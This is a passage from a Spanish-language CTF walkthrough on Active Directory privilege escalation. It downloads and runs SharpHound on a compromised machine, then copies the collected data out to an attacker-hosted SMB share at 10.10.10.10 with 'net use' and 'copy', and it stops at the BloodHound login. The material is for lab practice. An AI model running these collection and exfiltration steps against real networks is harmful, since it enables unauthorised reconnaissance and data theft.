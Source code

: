 
***escalada de privilegios

sabemos hasta el momento que esta en una maquina de directorio activo, así que debemos ver las rutas de escalada, vectores de ataque y posibles conexiones, para eso recolectaremos información en la maquina comprometida con *sharphound.exe* (en entornos reales esta herramienta puede ser detectada y desatar alertas por ciertos eventos generados por la misma, una de esas herramientas que podría detectarlo seria *Wazuh*)aunque en los ctf's y entornos controlados o ciertas situaciones, esta bien usarla

 este es un complemento de la herramienta bloodhound:
 una herramienta especializada para pentesting a servidores de active directory muy visual que  muestra la relación entre múltiples objetos del servidor
 puedes ver mas de la misma en:
 https://seguridadinformaticaactual.com/2021/07/18/bloodhound-herramienta-para-hacer-pentesting-a-un-servidor-de-active-directory/

podemos descargar el ejecutable con:
```bash
wget https://github.com/SpecterOps/SharpHound/releases/download/v2.5/SharpHound-v2.5.13-debug.zip
```
y vamos a enviarlo a la maquina comprometida, levantando de nuevo un servidor de python donde esta el archivo y usando en el otro equipo:
```powershell
wget http://10.10.10.10/SharpHound.exe -o sharphound.exe
```

debemos descargarlo en la carpeta oculta de windows *Programdata* ya que desde Temp no ejecuta nada

ahora lo usamos con:
```powershell
.\sharphound.exe -c all
```

luego de eso, tendremos como resultado un archivo ..._BloodHound.zip, debemos pasarlo a nuestro equipo

vamos a levantar un servidor smb en nuestro equipo:
```bash
impacket-smbserver smbFolder . --smb2support -username test -password test
```
y en la maquina victima:
```powershell
net use \\10.10.10.10 -user:test test
copy *.zip \\10.10.10.10\smbFolder
```
para dejar los archivos listos para usar, descomprime el archivo zip.

hora de ejecutar bloodhound:
```bash
sudo neo4j console
```
si es primera vez, vas a ir a localhost:7474 y configurar tu user/password

y en otra terminal:
```bash
bloodhound
```
desplegara una ventana en la cual vas a iniciar sesión con las credenciales que haz configurado: